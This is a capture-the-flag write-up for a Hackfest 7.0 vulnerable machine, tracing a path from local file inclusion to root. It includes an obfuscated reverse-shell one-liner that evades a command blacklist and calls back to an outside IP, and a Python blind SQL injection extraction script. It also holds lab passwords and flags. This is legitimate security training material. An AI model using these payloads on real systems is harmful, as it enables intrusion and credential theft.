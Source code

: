 I have contributed with Vulnerable Machine as a Penetration Testing challenge for Hackfest 7.0:\
<br>
</br> 
![img](images/image_2023-06-26_001633995.png)\
<br>
</br>
Let's first start with a scan to discover open ports:\
<br>
</br>
![img](images/image_2023-06-25_221255274.png)\
<br>
</br>
So let's go ahead and check the web app on port 80:\
<br>
</br>
![img](images/image_2023-06-25_221211894.png)\
<br>
</br>
We see that there is something with downloading ``report`` from the server.
Also we go ahead and check the source code:\
<br>
</br>
![img](images/image_2023-06-25_221230171.png)\
<br>
</br>
It says that every report has an id, so there must be parameters we could use. With ``report`` and ``id`` there are a few combinations we could take: ``report=&id=``, ``report_id=``, ``id_report=``. So we need to take our time to test all these parameters. But finally we get that the one we'll be using is ``report=&id=``. And since the author talked about downloading reports it might be vulnerable to LFI, which it is! But you will not find this payload on any cheat sheet :p you will need to use some logic:\
<br>
</br>
![img](images/image_2023-06-25_221346724.png)\
<br>
</br>
And now we have our LFI.
Checking everything on the server we find nothing, no cleartext creds or ssh keys or any other thing. So let's check out the ``/etc/hosts`` file:\
<br>
</br>
![img](images/image_2023-06-25_221412943.png)\
<br>
</br>
We have another subdomain ``privatedomainn.locke.challenges.hackfest.tn`` let's check it out:\
<br>
</br>
![img](images/image_2023-06-25_221430709.png)\
<br>
</br>
We type any command and we find it is vulnerable to command injection:\
<br>
</br>
![img](images/image_2023-06-25_221442066.png)\
<br>
</br>
But when we type some other commands it tells us to get away, not very polite huh? :\
<br>
</br>
![img](images/image_2023-06-25_221518226.png)\
<br>
</br>
It must be blacklisted, so after a long time of trying to craft a payload we come up with this payload:\
<br>
</br>
``m=m;a=$'\046';s=$'\057';f=f;p=p;h=h;t=t;c=c;r${m}   ${s}tm${p}${s}f;mk${f}ifo   ${s}tm${p}${s}f;ca${t}  ${s}tm${p}${s}f|s${h}   -i  2>${a}1|n${c}    192.168.1.20    6666    >${s}tm${p}${s}f``
We store characters in variables and then call them, that ways we bypass the blacklist on words, and we use the hex representation of symbols which is interpreted by bash and transformed to the symbol itself, you can try it yourself :D , and we get a callback from the server:\
<br>
</br> 
![img](images/image_2023-06-25_223318248.png)\
<br>
</br>
![img](images/image_2023-06-25_223328201.png)\
<br>
</br>
Enuermating the machine we find nothing useful for privilege escalation, but checking the port the server is listening on we find an interesting one:\
<br>
</br>
![img](images/image_2023-06-25_223347505.png)\
<br>
</br>
This is a filtered web application, so let's try and forward the port to our local machine so we can access it with ease (ps: you can exploit the vulnerability without doing a port forwarding, doing it from inside the machine):\
<br>
</br>
![img](images/image_2023-06-25_225508169.png)\
<br>
</br>
![img](images/image_2023-06-25_225517751.png)\
<br>
</br>
And now we can access it from ``http://127.0.0.1:10003``:\
<br>
</br>
![img](images/image_2023-06-25_225533101.png)\
<br>
</br>
Now let's try to test a bunch of different things:\
<br>
</br>
![img](images/image_2023-06-25_225552903.png)\
<br>
</br>
![img](images/image_2023-06-25_225605097.png)\
<br>
</br>
Hmm interesting, it says that only the admin had the key, so we need to get whatever the admin has.
![img](images/image_2023-06-25_225747594.png)\
<br>
</br>
After a bunch of different payloads we figure that this is vulernable to Blind SQL Injection, so I wrote a small payload in python to exploit this vulnerability:\
<br>
</br>
``python
#!/usr/bin/python
import requests
def string(start,end):\
<br>
</br>
        str=''
        for i in range(start,end):
    \
    <br>
    </br>
                str+=chr(i)
        return str
def passwd():\
<br>
</br>
        url='http://127.0.0.1:10003/?username='
        test=string(48,127)
        username="admin' union distinct select 1,2,0x{hex} order by 3 desc%23&password=1"
        flag=""
        for _ in range(32):
    \
    <br>
    </br>
                for i in test:
            \
            <br>
            </br>
                        data = username.format(hex=(flag+i).encode('hex'))
                        result=requests.post(url+data)
                        if "admin" not in result.text:
                    \
                    <br>
                    </br>
                                flag=flag+chr(ord(i)-1)
                                print flag
                                break
if __name__ == '__main__':\
<br>
</br>
        passwd()
``
And we run it:\
<br>
</br>
![img](images/image_2023-06-25_231535263.png)\
<br>
</br>
And YES! We get a hit back with the password.
And if we look closer at the description it said that it must be all lowercase, so let's try to ssh to the machine using this password and using the user ``cryptic``:\
<br>
</br>
![img](images/image_2023-06-25_231850578.png)\
<br>
</br>
And we get our first flag:\
<br>
</br> 
``Hackfest{70de14735437fb48ccc1c85604983b5c}``
Enumerating the machine, we find that this user has some hidden files under his home directory:\
<br>
</br>
![img](images/image_2023-06-25_232511782.png)\
<br>
</br>
I will not be going through this in detail, but this is the latest KeePass CVE released 3 weeks ago, yes we only bring you fresh meet ;) you can check out this repo and follow the steps to solve it:``https://github.com/vdohney/keepass-password-dumper``
We get the password for the keepass database is:``mallafouedyesahby``
We open it and we get the creds for iwd user (shoutout to my good friend iwd):\
<br>
</br>
![img](images/image_2023-06-25_233142947.png)\
<br>
</br>
The password is:\
<br>
</br> ``CryptoIs5omtime5UsEFuL``
So we go ahead and ssh into the machine using iwd user:\
<br>
</br>
![img](images/image_2023-06-25_233848208.png)\
<br>
</br>
And we get the second flag:\
<br>
</br> ``Hackfest{65f69907711675ddb07e832539333a6f}``
Enumerating the machine we find that iwd user can execute this command as sudo:\
<br>
</br>
![img](images/image_2023-06-25_233904294.png)\
<br>
</br>
And we can take a look at the source code for the bash script:\
<br>
</br>
![img](images/image_2023-06-25_234055785.png)\
<br>
</br>
This is basically an email checker that requires a specific format as specified in the script and it is vulnerable to command injection in the ``Request`` field, so let's exploit it:\
<br>
</br>
![img](images/image_2023-06-26_001223527.png)\
<br>
</br>
And yes we are ROOT!
And here is out final flag:\
<br>
</br> ``Hackfest{7a899205babaab8623b7cb007b843115}``
